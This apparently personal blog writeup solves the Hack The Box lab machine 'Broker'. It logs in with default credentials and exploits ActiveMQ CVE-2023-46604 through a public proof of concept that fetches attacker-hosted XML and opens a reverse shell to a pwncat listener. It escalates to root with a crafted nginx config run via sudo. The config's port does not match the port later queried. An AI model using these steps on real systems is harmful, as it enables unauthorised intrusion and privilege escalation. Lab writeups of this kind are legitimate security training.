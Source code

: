 ```yaml
---
layout: post
title: Broker HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy,linux,default creds,cve]
img_path: /images/htb/easy/broker/
image:
  path: icon.png
---
```


Another easy, (and my first retired) machine!

**Machine created by:** [TheCyberGeek](https://app.hackthebox.com/users/114053)

## Recon

Let's start with a port scan:

```
$ sudo nmap 10.10.11.243 --top-ports 2500
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-05 07:20 AEDT
Nmap scan report for 10.10.11.243
Host is up (0.014s latency).
Not shown: 2492 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1337/tcp  open  waste
1883/tcp  open  mqtt
5672/tcp  open  amqp
9001/tcp  open  tor-orport
9003/tcp  open  unknown
61613/tcp open  unknown
```

Let's setup an entry in `/etc/hosts`

```
10.10.11.243 broker.htb
```

Visiting [broker.htb](http://broker.htb:80) prompts authentication, which out of instinct I inputted `admin:admin` and it succeeded :p

![Main](main.png)

## Exploitation

Looking for CVEs on ActiveMQ I found [CVE-2023-46604 RCE PoC](https://github.com/evkl1d/CVE-2023-46604) and I setup a listener.

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host -m linux 10.10.***.*** 4444
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

After cloning the PoC I edited the XML to be my private IP and port, then hosted it locally using `python3 -m http.server`.

I then ran the PoC:

```
$ python3 exploit.py -i 10.10.11.243 -p 61616 -u http://10.10.***.***:8000/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.***.***:8000/poc.xml

[*] Sending packet: 000000711f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001e687474703a2f2f31302e31302e31362e393a383030302f706f632e786d6c
```

And I recieve a response!

```
[07:28:01] 10.10.11.243:49786: registered new host w/ db
           listener: 10.10.16.9:4444: linux session from 10.10.11.243:49786
           established
```

## User Flag

I then see I'm the user `activemq` and read the user flag.

```
(remote) activemq@broker:/opt/apache-activemq-5.15.15/bin$ cat /home/activemq/user.txt
c8293361b3c30407ee77164ebe96aa6d
```

And there's the user flag! <mark>c8293361b3c30407ee77164ebe96aa6d</mark>

## Root Flag

Running `sudo -l` shows an entry:
```
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Looking at the options for `nginx` we can supply a custom config:

```
$ sudo /usr/sbin/nginx
nginx version: nginx/1.18.0 (Ubuntu)
Usage: nginx [-?hvVtTq] [-s signal] [-c filename] [-p prefix] [-g directives]

Options:
  -?,-h         : this help
  -v            : show version and exit
  -V            : show version and configure options then exit
  -t            : test configuration and exit
  -T            : test configuration, dump it and exit
  -q            : suppress non-error messages during configuration testing
  -s signal     : send signal to a master process: stop, quit, reopen, reload
  -p prefix     : set prefix path (default: /usr/share/nginx/)
  -c filename   : set configuration file (default: /etc/nginx/nginx.conf)
  -g directives : set global directives out of configuration file

```

We can make a new config in `/tmp/newconf.conf` (documentation from [Nginx Docs](https://www.nginx.com/resources/wiki/start/topics/examples/full/)):

```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 9999;
        root /;
    }
}
```

and then just read the root flag!

```
$ curl -L "http://localhost:1337/root/root.txt"
353a4607eef11ca5b7e6cff7464afd66
```

There's the root flag! <mark>353a4607eef11ca5b7e6cff7464afd66</mark>

![Success](submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).

You can also find my other contacts on the [whoami](../about) page.